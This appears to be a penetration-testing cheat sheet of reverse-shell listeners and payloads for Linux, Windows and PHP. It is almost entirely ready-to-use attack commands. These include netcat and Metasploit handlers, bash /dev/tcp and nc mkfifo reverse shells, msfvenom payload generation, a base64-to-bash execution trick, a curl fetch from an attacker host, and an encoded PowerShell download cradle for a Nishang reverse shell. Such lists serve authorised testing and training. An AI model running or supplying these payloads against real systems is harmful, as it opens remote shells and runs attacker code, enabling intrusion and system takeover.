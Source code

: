 # Linux

## Listeners

Netcat
`nc -lvnp port`

Meterpreter Linux x64 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Note: Sometimes need to sh or bash -c 'revshell' for these to work.

Other Note: Can curl --data-urlencode params
```
curl http://target/file --data-urlencode "paramname=paramvalue"

Great for initial access via revshells through web shells.
```

sh -i
`sh -i >& /dev/tcp/ipaddress/port 0>&1`

nc mkfifo
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ipaddress port >/tmp/f`

nc -e
`nc ipaddress port -e sh`

Base64 Revshell Linux
```
echo -n 'payload' | base64 > payload.b64 # Can add spaces to eliminate plus signs

echo payload.b64 | base64 -d | bash
```

Curl (still need to chmod and execute)
`curl attacker:port/shell.sh -o /remote/shell.sh`

Meterpreter Linux x64 Reverse TCP Staged
`msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f elf -o shell`

# Windows

## Listeners

Meterpreter Windows x86 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Meterpreter Windows x86 Reverse TCP Staged
`msfvenom -p windows/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell.exe`

Meterpreter Windows x64 Reverse TCP Staged
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell.exe`

Netcat
`nc.exe -e cmd.exe ipaddress port`

Nishang PowerShell Revshell
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```
echo -n "IEX(new-object net.webclient).downloadstring('http://attacker/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0 > payload.b64

# iconv converts payload to encoding used by Windows

echo 'Invoke-PowerShellTcp -Reverse -IPAddress ipaddress -Port port' >> Invoke-PowerShellTcp.ps1

start listener
start webserver

powershell -enc payload.b64
```

# PHP

Pentest Monkey
`/usr/share/webshells/php/php-reverse-shell.php`
